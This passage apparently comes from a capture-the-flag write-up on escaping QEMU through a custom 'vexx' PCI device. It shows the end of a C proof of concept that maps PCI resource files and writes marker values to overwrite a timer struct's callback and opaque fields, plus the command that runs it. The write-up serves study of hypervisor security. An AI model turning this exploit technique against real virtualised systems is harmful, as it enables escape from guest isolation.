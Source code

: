 ```
        exit(1);  
    }  
    if(ioperm(MOD_PORT, 3, 1)) {  
        exit(2);  
    }  
    //set offset to 0xFF  
    outb(0xFF, OFF_PORT);  
    //set memorymode to 0x1  
    outb(0x1, MOD_PORT);  
    //open resource file associated with vexx_cmb MMIO region  
    int cfd = open(argv[1], O_RDWR|O_SYNC);  
    if(cfd < 0) {  
        exit(3);  
    }  
      
    //open resource file associated with vexx_mmio MMIO region  
    int mfd = open(argv[2], O_RDWR|O_SYNC);  
    if(mfd < 0) {  
        exit(4);  
    }  
    //create vexx_cmb mapping  
    void *cmb = mmap(NULL, 0x4000,   
     PROT_READ|PROT_WRITE, MAP_SHARED, cfd, 0);  
 if(cmb == MAP_FAILED) {  
     exit(4);  
 }  
 //create vexx_mmio mapping  
 void *mmio = mmap(NULL, 0x1000,   
  PROT_READ|PROT_WRITE, MAP_SHARED, mfd, 0);  
 if(mmio == MAP_FAILED) {  
     exit(5);  
 }  
 //trigger vexx_cmb_write to overwrite cb field  
 *(u_int64_t *)(cmb + atoi(argv[3])) = 0x4141414141414141;  
 //trigger vexx_cmb_write to overwrite opaque field  
 *(u_int64_t *)(cmb + atoi(argv[4])) = 0x4242424242424242;  
 //trigger vexx_mmio_write to call timer_mod  
 *(u_int64_t *)(mmio + atoi(argv[5])) = 0x1;  
 exit(0);  
}  
```

```
./exp /sys/devices/pci0000:00/0000:00:04.0/resource1 /sys/devices/pci0000:00/0000:00:04.0/resource0 57 65 152
```

If we attach to our running qemu process with gdb, set a breakpoint on **vexx_cmb_write** and execute our PoC, we see that we are sucessfully overwriting the **cb** and **opaque** fields of the **dma_timer** struct.

![](/images/1_Yp8wmmqbOzpE1WeUL1NiUA.png)
